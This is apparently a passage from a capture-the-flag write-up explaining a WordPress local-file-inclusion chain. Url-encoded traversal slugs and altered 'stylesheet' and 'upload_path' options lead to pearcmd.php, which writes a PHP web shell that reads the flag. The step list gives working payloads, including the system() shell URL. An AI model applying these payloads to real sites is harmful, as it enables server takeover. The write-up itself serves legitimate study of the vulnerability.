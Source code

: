 The `post_name` name hides the `Slug` field.

In the code we see that WordPress implies that this field can be urlencoded.

Thus, by coding in LFI payload we achieve directory traversal.

```
[THEME_PATH]/single-post-[SLUG].php
```

Where `[THEME_PATH]` is the value of the `stylesheet`option, and `[SLUG]` is the entry slug. If we set `stylesheet` to `../../../../tmp`, and the slug to `/../../something`, the path will be as follows:

```
../../../../tmp/single-post-/../../something.php
```

This means that if the `/tmp/single-post-`folder exists, we can include any file ending with , `.php` in the filesystem, reaching LFI.

The task author suggests using PEAR LFI-RCE. I looked at the [Dockerfile](https://github.com/docker-library/wordpress/blob/cb4dee629a6dbc942cb218f3d8516e71eb13b27e/latest/php8.2/apache/Dockerfile) wordpress and did not see an explicit installation of pear.php. But yes, it is there in the path `/usr/local/lib/php/pearcmd.php`

And as far as I understand, all this is already installed in the usual `php:8.2-apache` container.

#### Author's Split

To use this, do the following:

1.  Make sure that at least two messages exist.
2.  Change the slug of the first one to `%2f%2e%2e%2f%2e%2e%2fusr%2flocal%2flib%2fphp%2fpearcmd` and the second one to `%2f%2e%2e%2f%2e%2e%2ftmp%2fshell` and write down their post IDs.
3.  Change the `stylesheet` parameter to `../../../../tmp`.
4.  Change the `upload_path` parameter to `/tmp/single-post-`.
5.  Upload the attachment somewhere to create the `/tmp/single-post-` folder.
6.  Access `/?p=[PEARCMD_POST_ID]&+config-create+/<?system($_GET[0]);die();?>+/tmp/shell.php` to write the web shell to `/tmp/shell.php`.
7.  Access `/?p=[SHELL_POST_ID]&0=/readflag` to get the flag